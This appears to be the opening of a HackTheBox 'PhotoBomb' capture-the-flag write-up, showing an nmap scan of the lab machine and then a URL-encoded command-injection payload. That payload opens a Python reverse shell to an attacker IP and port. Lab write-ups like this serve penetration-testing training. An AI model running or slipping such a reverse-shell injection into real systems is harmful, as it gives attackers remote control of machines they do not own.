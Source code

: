 # HackTheBox PhotoBomb WriteUp

![Ping](images/photobomb.png?raw=true "Photobomb")


Machine IP: 10.10.11.182

![Ping](images/img(1).png?raw=true "Ping")

<br/>

### -> NMAP SCAN

```
sudo nmap -vvv -cSV -p0-65535 --reason -T4 10.10.11.182 -oN photobomb.nmap
```

![Ping](images/img(2).png?raw=true "Ping")

%3bexport+RHOST%3d"10.10.14.95"%3bexport+RPORT%3d9001%3bpython3+-c+'import+sys,socket,os,pty%3bs%3dsocket.socket()%3bs.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))))%3b[os.dup2(s.fileno(),fd)+for+fd+in+(0,1,2)]%3bpty.spawn("sh")'